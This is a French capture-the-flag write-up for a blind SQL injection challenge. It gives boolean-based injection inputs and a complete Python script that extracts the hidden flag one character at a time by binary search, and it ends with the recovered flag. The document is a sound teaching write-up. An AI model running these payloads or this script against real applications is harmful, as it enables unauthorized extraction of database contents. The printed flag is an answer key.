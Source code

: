 # Writeup - Injection SQL #3: Mais je le vois pas!

La requête pour ce défi est:

```sql
SELECT id,flag FROM challenge3 WHERE id='NOTRE_INPUT';
```

Cette fois on nous dit seulement s'il y a des résultats pour notre requête ou non; même chose pour les erreurs. Ceci peut sembler être une absence d'information, mais il s'agit en fait d'une information booléenne. En Utilisant judicieusement cette dernière, on peut reconstruire des informations plus complexes morceaux par morceaux en "posant des questions" vrai ou faux. Par exemple, si je veux savoir combien il y a d'entrée dans la table, je peux voir s'il y a des résultats quand je regarde uniquement la 1ère ligne de résultats, puis la 2è et ainsi de suite:

```sql
 -- Entrée
' OR ''='' LIMIT 1 OFFSET 0 --
 -- Requête
 SELECT id,flag FROM challenge3 WHERE id='' OR ''='' LIMIT 1 OFFSET 0 -- ';
 -- Résultat = Votre requête a retourné au moins un résultat


 -- Entrée
' OR ''='' LIMIT 1 OFFSET 1 --
 -- Requête
 SELECT id,flag FROM challenge3 WHERE id='' OR ''='' LIMIT 1 OFFSET 1 -- ';
 -- Résultat= Votre requête n'a retourné aucun résultat
```

Avec les deux requêtes précédentes, on peut apprendre qu'il n'y a qu'une seule entrée dans la table. On peut appliquer le même principe pour retrouver chacun des caractères du contenu de la colonne `flag`. Ceci demande beaucoup de requêtes et nous allons donc le scripter. Il y a plus d'une manière de faire. Dans le script suivant, nous utiliserons les fonctions SQL `ASCII` et `SUBSTRING` pour effectuer une recherche binaire sur la valeur de chacun des caractères du flag.

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-
import requests

URL = "https://unitedctf.ca:18000/challenge3.php"
HEADERS = {}

query = "' OR ASCII(SUBSTRING(flag, {}, 1)) > {} -- " # Placeholders are for Position and ascii value respectively
validate = "' OR flag='{}"

def find_next_letter(index):
    resp = requests.Response()
    low = 0
    high = 0x7f # Maximum value in ASCII range

    # Use binary search over the ASCII range. Faster than enumerating each character
    while high > low:
        char = (low + high) // 2
        try:
            resp = requests.post(URL, data={"flagID": query.format(index, char)}, headers=HEADERS)
        except ConnectionError as e:
            print(e)
        if "au moins un résultat" in resp.text:
            low = char + 1
        else:
            high = char
    return chr(low)

def find_password():
    currentPass = ""
    while "au moins un résultat" not in requests.post(URL, data={"flagID": validate.format(currentPass)}, headers=HEADERS).text:
        currentPass += find_next_letter(len(currentPass) + 1) #SUBSTRING is 1-indexed
        print(currentPass) # See the flag being built char by char on the screen. This is fun to watch and prevents you from thinking the script is stuck
    return currentPass

print("Flag: " + find_password())
```

Flag: **FLAG-In_the_Land_of_Mariadb_where_the_Columns_lie_4Z3H1ymWBX**
